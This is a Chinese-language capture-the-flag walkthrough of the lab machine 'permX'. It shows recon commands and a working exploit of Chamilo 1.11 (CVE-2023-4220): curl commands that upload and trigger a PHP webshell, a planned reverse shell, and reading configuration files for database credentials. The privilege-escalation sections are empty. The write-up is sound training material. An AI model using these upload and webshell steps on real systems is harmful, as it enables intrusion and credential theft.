

# ✔️ permX

## 建立立足点

### 信息收集

* 使用Nmap对目标开放端口进行扫描：

```bash
nmap -sC -sV -p- -oA permx 10.129.76.98 --open
```

<figure><figcaption></figcaption></figure>

* 有个开放端口80，登录其页面查看详情，发现是一个线上学习网站：

<figure><figcaption></figcaption></figure>

* 使用dirsearch工具对80端口扫描以枚举隐藏文件/目录，结果无收获：

```bash
dirsearch -u http://permx.htb/ -x 403,404,400
```

<figure><figcaption></figcaption></figure>

* 再试试wfuzz对其子域名进行枚举，看看还有没有其他页面：

```bash
wfuzz -c -u http://permx.htb -H "Host:FUZZ.permx.htb" -w subdomains-top1million-110000.txt --hc 404 -t 200 --hl 9
```

<figure><figcaption></figcaption></figure>

* 找到2个子域，分别登录查看后发现，lms.permx.htb显示的是名为chamilo应用程序的登录界面，并在页面底部返现了管理员的用户名和邮箱（**Administrator : Davis Miller**）：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* 先将域名及其子域名和IP都写进hosts文件中：

<figure><figcaption></figcaption></figure>

* 初步查看了以一下lms子域的源码，决定使用gobuster对其隐藏文件/目录进行枚举：

```bash
gobuster dir -u http://lms.permx.htb/ -w /usr/share/wordlists/dirb/common.txt
```

<figure><figcaption></figcaption></figure>

* 有好几个文件都值得关注一下：
  * \`/documentation\`
  * \`/robots.txt\`
  * \`/web.config\`
* 查看\`/robots.txt\`可得知：

<figure><figcaption></figcaption></figure>

* 进入\`/documentation\`页面后，发现其运行的chamilo应用程序的版本号：1.11

<figure><figcaption></figcaption></figure>

* 接下来依次查看了各个隐藏文件/目录的相关页面，信息如下：

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

该页面中的好多php文件在浏览器中不可读，但是看起来都是配置文件，因此后续可能可以利用到，需要关注起来

### 漏洞查阅

* 从之前的枚举信息中已知正在运行的程序是chamilo 1.11版本，因此搜索后发现多个相关的可利用漏洞，从最近的开始尝试：（CVE-2023-4220）

<figure><figcaption></figcaption></figure>

* 阅读漏洞说明后，发现可以在该应用的特定路径下上传没有任何限制的文件，这意味着我可以直接上传一个php的反弹shell：

<figure><figcaption></figcaption></figure>

### 漏洞利用

* 这里先简单写一个php一句话木马，检测一下当前目标系统是否存在该漏洞：

```bash
echo '<?php system("id");?>' > shell.php
# 上传这个一句话木马脚本：
curl -F 'bigUploadFile=@shell.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
# 触发这个脚本后，发现利用成功，这意味着我可以直接上传真正的php反弹shell:
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/shell.php'
```

* 这里使用的是一个我在靶机训练中常用的一个反弹shell的php脚本（pentestmonkey），修改脚本中kali端的IP及监听端口后，即可上传：

<figure><figcaption></figcaption></figure>

* 监听好自己设置的端口，上传该脚本等待回连：

<figure><figcaption></figcaption></figure>

### GET SHELL

* 成功获得反弹shell，此时开始枚举目标主机中的各个文件内容，查找第一个flag：

<figure><figcaption></figcaption></figure>

* 此处找到了刚才在浏览器端无法查看的各个配置文件：

<figure><figcaption></figcaption></figure>

* 这其中有几个文件都值得关注：

<figure><figcaption></figcaption></figure>

* 最终在\`configuration.php\`文件中发现了目标数据库的登录凭证：

<figure><figcaption></figcaption></figure>

* 但是该目标并没有开放3306端口，剩下能利用的是端口22上的ssh


## 权限提升

### 本地信息枚举


### 漏洞查阅


### 漏洞利用


### ROOT



本例简单偏中等难度，在get shell阶段，锁定对了漏洞后就非常简单；提权阶段需要搞清楚当前低权限账户有完全控制权的那个文件的具体用法后，才能提权成功。

有时候，在初步信息枚举阶段获得到足够多的看似有用的信息，也算得上是一种“兔子洞”。这个时候需要将信息分门别类出来，只关注那些最直接的信息，而不是其他的“噪音”。

